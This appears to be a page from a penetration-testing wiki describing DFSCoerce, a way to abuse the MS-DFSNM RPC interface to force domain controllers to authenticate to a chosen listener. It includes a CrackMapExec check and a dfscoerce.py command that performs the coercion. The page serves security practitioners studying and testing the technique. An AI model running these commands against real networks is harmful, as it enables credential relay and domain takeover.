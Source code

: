 # MS-DFSNM abuse (DFSCoerce)

## Theory

MS-DFSNM is Microsoft's Distributed File System Namespace Management protocol. It provides an RPC interface for administering DFS configurations ([docs.microsoft.com](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)) and is available as an RPC interface. That interface is available through the `\pipe\netdfs` SMB named pipe.

In mid-2022, [Filip Dragovic](https://twitter.com/filip\_dragovic) demonstrated the possibility of abusing the protocol to coerce authentications. Similarly to other MS-RPC abuses, this works by using a specific method relying on remote address. In this case (as of July 6th, 2022), the following methods were detected vulnerable: `NetrDfsRemoveStdRoot` and `NetrDfsAddStdRoot`. It is worth noting this coercion method only works against domain controllers.

## Practice

{% tabs %}
{% tab title="Enumerate" %}
[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python) can be used to check if the target is vulnerable to DFSCoerce.

```bash
crackmapexec smb $IP -u $USER -p $PASSWORD -M dfscoerce
```
{% endtab %}

{% tab title="Practice" %}
The following Python proof-of-concept ([https://github.com/Wh04m1001/DFSCoerce](https://github.com/Wh04m1001/DFSCoerce)) implements the `NetrDfsRemoveStdRoot` and `NetrDfsAddStdRoot` methods.

```bash
dfscoerce.py -d "domain" -u "user" -p "password" LISTENER TARGET
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979" %}

{% embed url="https://github.com/Wh04m1001/DFSCoerce" %}
